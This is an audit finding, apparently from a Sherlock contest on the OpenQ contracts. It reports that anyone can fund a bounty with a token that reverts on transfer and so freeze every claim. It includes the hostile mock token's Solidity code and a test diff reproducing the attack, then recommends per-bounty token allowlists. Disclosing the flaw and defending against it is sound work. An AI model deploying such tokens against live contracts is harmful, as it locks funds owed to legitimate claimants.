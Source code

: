 libratus

high

# Attacker can fund a bounty with an invalid token and freeze all claims

## Summary
Attacker can fund a bounty with a custom token that will revert on transfer when bounty is claimed. This will prevent any bounty tokens from being transferred to the winner.

## Vulnerability Detail
In `ClaimManager` code goes over all bounty tokens and sends them one by one to the closer
https://github.com/sherlock-audit/2023-02-openq/blob/main/contracts/ClaimManager/Implementations/ClaimManagerV1.sol#L130-L134

If transfer reverts for one of the tokens, the whole claim process will fail. Funding bounties with tokens is permissionless. There is no guard on `DepositManagerV1.fundBountyToken`. This allows an attacker to create a fake ERC20 token that will always revert during claim and fund any bounty with it. This will freeze claims for the bounty.

## Impact
Claim can be broken for any bounty

## Code Snippet
Fake token to use in the test case:
```solidity
import '@openzeppelin/contracts/token/ERC20/ERC20.sol';

contract MockAttackerToken is ERC20 {
    address public admin;

    constructor() ERC20('Mock Attacker', 'mATTCK') {
        _mint(msg.sender, 10000 * 10**18);
        admin = msg.sender;
    }

    function transfer(address to, uint256 amount) public virtual override returns (bool) {
        if (msg.sender != admin) revert("Block token transfer");
        return super.transfer(to, amount);
    }
}
```

Test case:
```diff
diff --git a/test/ClaimManager.test.js b/test/ClaimManager.test.js
index 41be3ce..847b383 100755
--- a/test/ClaimManager.test.js
+++ b/test/ClaimManager.test.js
@@ -36,6 +36,7 @@ describe('ClaimManager.sol', () => {
        let mockNft;
        let openQTokenWhitelist;
        let mockKyc;
+       let mockAttackerToken;
 
        let claimManagerImplementation;
 
@@ -46,6 +47,7 @@ describe('ClaimManager.sol', () => {
        let claimant;
        let claimantSecondPlace;
        let claimantThirdPlace;
+       let attacker;
 
        // CONSTANTS
        let zeroTier
@@ -85,6 +87,7 @@ describe('ClaimManager.sol', () => {
                const DepositManager = await ethers.getContractFactory('DepositManagerV1');
                const ClaimManager = await ethers.getContractFactory('ClaimManagerV1');
                const MockKyc = await ethers.getContractFactory('MockKyc');
+               const MockAttackerToken = await ethers.getContractFactory('MockAttackerToken');
 
                AtomicBountyV1 = await ethers.getContractFactory('AtomicBountyV1');
                OngoingBountyV1 = await ethers.getContractFactory('OngoingBountyV1');
@@ -107,7 +110,7 @@ describe('ClaimManager.sol', () => {
                const BountyFactory = await ethers.getContractFactory('BountyFactory');
                const BountyBeacon = await ethers.getContractFactory('BountyBeacon');
 
-               [owner, claimant, oracle, claimantSecondPlace, claimantThirdPlace, notOwner] = await ethers.getSigners();
+               [owner, claimant, oracle, claimantSecondPlace, claimantThirdPlace, notOwner, attacker] = await ethers.getSigners();
 
                openQImplementation = await OpenQImplementation.deploy();
                await openQImplementation.deployed();
@@ -133,6 +136,9 @@ describe('ClaimManager.sol', () => {
                blacklistedMockDai = await MockDai.deploy();
                await blacklistedMockDai.deployed();
 
+               mockAttackerToken = await MockAttackerToken.connect(attacker).deploy();
+               await mockAttackerToken.deployed();
+
                mockNft = await MockNft.deploy();
                await mockNft.deployed();
 
@@ -198,6 +204,7 @@ describe('ClaimManager.sol', () => {
                abiCoder = new ethers.utils.AbiCoder;
 
                atomicBountyInitOperation = atomicBountyInitOperation_fundingGoal(mockLink.address)
+               atomicBountyPermissionedInitOperation = atomicBountyInitOperation_permissioned(mockLink.address)
                ongoingBountyInitOperation = ongoingBountyInitOperationBuilder(mockLink.address)
                
                tieredPercentageBountyInitOperation_permissionless = tieredBountyInitOperationBuilder_permissionless(mockLink.address)
@@ -443,6 +450,94 @@ describe('ClaimManager.sol', () => {
                                        // ASSERT
                                        expect(await mockNft.ownerOf(1)).to.equal(owner.address);
                                });
+
+                               it('should transfer rewards if bounty was funded by attacker\'s token', async () => {
+                                       // ARRANGE
+                                       const volume = 100;
+                                       await openQProxy.mintBounty(Constants.bountyId, Constants.organization, atomicBountyInitOperation);
+
+                                       const bountyAddress = await openQProxy.bountyIdToAddress(Constants.bountyId);
+
+                                       await mockDai.approve(bountyAddress, 10000000);
+                                       await depositManager.fundBountyToken(bountyAddress, mockDai.address, volume, 1, Constants.funderUuid);
+
+                                       // Attacker funds invalid token
+                                       await mockAttackerToken.connect(attacker).approve(bountyAddress, 1000);
+                                       await depositManager.connect(attacker).fundBountyToken(bountyAddress, mockAttackerToken.address, 1000, 1, Constants.funderUuid);
+
+                                       // // // ACT
+
+                                       await claimManager.connect(oracle).claimBounty(bountyAddress, claimant.address, abiEncodedSingleCloserData);
+
+                                       // // ASSERT
+                                       const newBountyFakeTokenBalance = (await mockDai.balanceOf(bountyAddress)).toString();
+                                       expect(newBountyFakeTokenBalance).to.equal('0');
+
+                                       const newClaimerFakeTokenBalance = (await mockDai.balanceOf(claimant.address)).toString();
+                                       expect(newClaimerFakeTokenBalance).to.equal('100');
+                               });

```


## Tool used

Manual Review

## Recommendation

Each bounty can have a permissioned list of tokens configured by the bounty owner. This will prevent the attacker from adding fake tokens